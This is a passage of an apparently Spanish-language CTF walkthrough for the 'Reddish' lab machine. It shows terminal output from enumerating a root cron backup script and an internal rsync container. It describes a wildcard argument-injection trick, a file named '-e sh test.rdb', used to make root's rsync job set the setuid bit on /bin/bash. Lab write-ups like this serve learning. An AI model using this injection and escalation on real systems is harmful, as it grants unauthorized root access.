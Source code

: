 Atraves de el binario `rsync` con dos archivos que nos vamos a crear!! 
1.- Llamdo `‘-e sh test.rdb’` y otro `‘test.rdb’` con el que le mandamos que nos haga `chmod +us /bin/bash`

Dado que en el directorio en el que metemos los archivos `tiene a root con una tarea cron ejecutando todos los archivos que acaben con extension rdb`

Nos fijamos en lo siguiente 
```bash
bash-4.3# cat backup.sh 
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b

Hamos un PING a BACKUP ya que vemos que se llama con el comando rsync
bash-4.3# ping backup
PING backup (172.20.0.3) 56(84) bytes of data.
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.3): icmp_seq=1 ttl=64 time=0.094 ms
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.3): icmp_seq=2 ttl=64 time=0.066 ms
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.3): icmp_seq=3 ttl=64 time=0.069 ms
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.3): icmp_seq=4 ttl=64 time=0.076 ms
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.3): icmp_seq=5 ttl=64 time=0.092 ms
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.3): icmp_seq=6 ttl=64 time=0.083 ms
^C
--- backup ping statistics ---
6 packets transmitted, 6 received, 0% packet loss, time 5000ms
rtt min/avg/max/mdev = 0.066/0.080/0.094/0.010 ms

tenemos otro contenedor en la 172.20.0.3 
```
`Recibimos la conexion del siguiente host 172.20.0.3`

Vamos a probar a usar el comando `rysync` como indica a ver que sucede:
```bash
bash-4.3# rsync rsync://backup:873/src/rdb/				La RAIZ del contenedor de la ip  172.20.0.3??
drwxr-xr-x          4,096 2021/06/15 13:40:01 .
bash-4.3# rsync rsync://backup:873/src/    
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,640 2021/06/15 06:54:10 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2021/06/15 06:54:10 proc
drwxr-xr-x          4,096 2021/06/15 13:40:01 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2021/06/15 06:54:11 run
```